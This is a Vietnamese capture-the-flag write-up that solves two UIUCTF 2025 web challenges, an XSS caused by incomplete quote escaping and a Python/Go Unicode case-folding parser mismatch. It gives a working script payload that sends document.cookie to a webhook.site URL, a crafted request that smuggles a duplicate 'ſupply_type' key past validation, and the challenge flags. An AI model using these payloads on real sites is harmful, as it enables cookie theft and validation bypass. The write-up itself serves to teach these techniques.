 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [WRITEUP,UIUCTF2025]
tags: [XSS, Unicode] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```
{: .nolineno }

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```
{: .nolineno }
đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .nolineno }
{: .prompt-tip }

## II. Shipping Bay

Khi mở trang web ta được một trang web với chức năng tạo và xem đơn hàng

![image.png](/assets/img/posts/UIUCTF2025/image3.png)

Thử tạo đơn hàng và sau khi đơn hàng được tạo thì không hiển thị trên trình duyệt. Quay trở lại burpsuite ta nhận được request và respone như sau:

![image.png](/assets/img/posts/UIUCTF2025/image4.png)

Quay trở lại source code ta nhận thấy có hai điểm đáng chú ý sau. Đoạn code python thì không cho sử key `supply_type` có value là `flag` ⇒ nếu có thì chặn và không gửi đến `processing_service` của Golang

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```
{: .nolineno }

Nhưng Golang lại cần điều kiện đó để trả ra `flag`

```go
func sendShipment(shipment Shipment) string {
  if shipment.SupplyType == "flag" {
    if flag, exists := os.LookupEnv("FLAG"); exists {
      return flag
    }
    return "uiuctf{fake_flag}"
  }
  return "oops we lost the package"
}
```
{: .nolineno }
Vậy để vượt qua thử thách trên? Vấn đề nằm ở **sự khác biệt về chuẩn hóa Unicode của** Python và xử lý Json của Go. Khi unmarshal vào struct, Go nội bộ xây chiến lược tìm field theo **tên JSON**  và cho phép một dạng **so khớp không phân biệt hoa-thường** (casefold). Vậy việc cần làm ở đây là tìm kí tự có casefold để vượt qua rào cản để lấy được flag. Và mình dùng đoạn code sau đây để tìm kí tự đó:

```go
package main

import (
  "fmt"
  "strings"
  "unicode"
)
func main() {
  s := "supply_type"
  runes := []rune(s)
  for pos, target := range runes {
    count := 0
    fmt.Printf("Vị trí %d, ký tự gốc %q (U+%04X)\n", pos, target, target)
    for cand := rune(0); cand <= unicode.MaxRune; cand++ {
      if !unicode.IsPrint(cand) || cand == target {
        continue
      }
      if strings.EqualFold(string(cand), string(target)) {
        fmt.Printf("  -> U+%04X %q\n", cand, cand)
        count++
      }
    }
    fmt.Println("  Total:", count)
  }
}
```
{: .nolineno }

và kết quả trả về chỉ duy nhất kí tự `s` có casefold `ſ` 

```
Vị trí 0, ký tự gốc 's' (U+0073)
  -> U+0053 'S'
  -> U+017F 'ſ'
```

Gửi payload đã chứa casefold để nhận flag `origin=Earth+Station+Beta&destination=Mars+Colony+Alpha&supply_type=hello&ſupply_type=flag&weight=2.4+tons&departure=2000-02-01&arrival=2000-02-02&priority=Medium&vessel=Cargo+Hauler+IX` 

Vậy nó hoạt động như nào?

Khi ta gửi `supply_type=hello&ſupply_type=flag` thì sẽ được xử lý như sau:

- `lower()` không casefold, không normalize do đó phân biệt `supply_type` và `ſupply_type` nên thêm luôn vào dictonary hay key này. và `supply_type=hello` có value ≠ `flag` nên đoạn payload sẽ được gửi tiếp đến Go
- Go khi map JSON key → struct field **so khớp không phân biệt hoa-thường theo Unicode** (case folding), nên coi `ſ` ≡ `s`. Vậy khi Go nhận `supply_type=hello` và sau đó lại nhận được `ſupply_type=flag` thì casefold nó và ghi đè thành `supply_type=flag` và vượt qua được kiểm tra nên trả ra flag.
> **Flag:**
> ```text
> uiuctf{maybe_we_should_check_schemas_8e229f}
> ```
{: .nolineno }
{: .prompt-tip }